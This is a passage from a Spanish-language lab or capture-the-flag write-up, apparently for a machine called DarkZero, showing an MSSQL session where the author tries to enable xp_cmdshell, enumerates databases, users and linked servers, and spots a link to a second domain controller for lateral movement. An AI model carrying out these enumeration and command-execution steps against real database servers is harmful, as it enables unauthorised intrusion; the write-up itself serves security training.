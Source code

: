 Intentémoslo:
```bash
SQL (darkzero\john.w  guest@master)> enable_xp_cmdshell
ERROR(DC01): Line 105: User does not have permission to perform this action.
ERROR(DC01): Line 1: You do not have permission to run the RECONFIGURE statement.
ERROR(DC01): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
ERROR(DC01): Line 1: You do not have permission to run the RECONFIGURE statement.
```
No podemos, no tenemos los suficientes privilegios.

Quizá exista una base de datos con un usuario y contraseña con más privilegios:
```bash
SQL (darkzero\john.w  guest@master)> enum_db
name     is_trustworthy_on   
------   -----------------   
master                   0   

tempdb                   0   

model                    0   

msdb                     1
```
Solo están las bases de dato por defecto.

Veamos qué usuarios de la BD actual existen:
```bash
SQL (darkzero\john.w  guest@master)> enum_users
UserName             RoleName   LoginName   DefDBName   DefSchemaName       UserID     SID   
------------------   --------   ---------   ---------   -------------   ----------   -----   
dbo                  db_owner   sa          master      dbo             b'1         '   b'01'   

guest                public     NULL        NULL        guest           b'2         '   b'00'   

INFORMATION_SCHEMA   public     NULL        NULL        NULL            b'3         '    NULL   

sys                  public     NULL        NULL        NULL            b'4         '    NULL
```
Solo están los usuarios por defecto, entre ellos, nuestro **usuario guest**.

Podemos encontrar algo interesante al listar los **linked servers** que son puertas a otras máquinas:
```bash
SQL (darkzero\john.w  guest@master)> enum_links
SRV_NAME            SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE      SRV_PROVIDERSTRING   SRV_LOCATION   SRV_CAT   
-----------------   ----------------   -----------   -----------------   ------------------   ------------   -------   
DC01                SQLNCLI            SQL Server    DC01                NULL                 NULL           NULL      

DC02.darkzero.ext   SQLNCLI            SQL Server    DC02.darkzero.ext   NULL                 NULL           NULL      

Linked Server       Local Login       Is Self Mapping   Remote Login   
-----------------   ---------------   ---------------   ------------   
DC02.darkzero.ext   darkzero\john.w                 0   dc01_sql_svc
```
Podemos ver un segundo dominio que es posible que podamos visitar con el comando **use_link**.
